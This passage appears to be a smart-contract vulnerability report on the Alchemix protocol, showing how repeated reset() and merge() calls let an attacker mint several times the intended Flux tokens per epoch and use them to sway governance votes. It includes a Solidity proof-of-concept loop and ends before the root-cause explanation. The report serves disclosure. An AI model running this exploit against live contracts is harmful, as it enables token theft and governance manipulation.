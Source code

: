 Now an attacker can mint the several times bigger than the amount of Flux Token for 1 epoch intended by Alchemix by the using the same amount of capital. 

So if an user have locked 10 * 10 ** 18 BPT token for 2 weeks, then the maximal amount of flux tokens can be claimed is: 

216_214_167_934_958_887 =  216 * 10 ** 15  Flux token. 

This amount here is just an example. 

Attacker can manipulate the system to mint several times to receive about more this amount in 1 epoch. I can demonstrate in the POC, the attacker was able to mint 5 times of the intended amount. 

The amount can be minted 
```
1189_177_923_641_421_562 = 1189 * 10 ** 15 Flux token
```

By doing so, the attacker can use the Flux token as boost to manipulate the governance voting result by calling the Vote() in Voter contract. 
Or the attacker can use the unclaimed Flux to mint Flux token. 

How to accomplish the exploit of minting? 

With an capital (for example 10 * 10 ** 18) The attacker can mint 10 tokenIDs with each lock 10**18 of BPT 

The attacker can call the function reset() and merge()

```solidity
        uint index = 0; 
        uint count = 9; 
        uint256 tokenId1; 
        uint256 tokenId2; 
        
        uint256 unclaimedFlux; 

            tokenId1 = createVeAlcx(attacker, TOKEN_1, 2 weeks, false);
          
        for (index = 0; index < count; ++index )
        {   
            console2.log("index: %s", index);
            console2.log("Call voter.reset(tokenId1)"); 
            voter.reset(tokenId1);
            unclaimedFlux = flux.getUnclaimedFlux(tokenId1);
            console2.log("unclaimedFlux of tokenId1: %s", unclaimedFlux);
            console2.log("Call  veALCX.merge() to merge tokenId"); 
            tokenId2 = createVeAlcx(attacker, TOKEN_1, 2 weeks, false);
            veALCX.merge(tokenId1, tokenId2);
            tokenId1 =  tokenId2 ; 
        
        }
        
        voter.reset(tokenId1);
```

Why this is possible? 
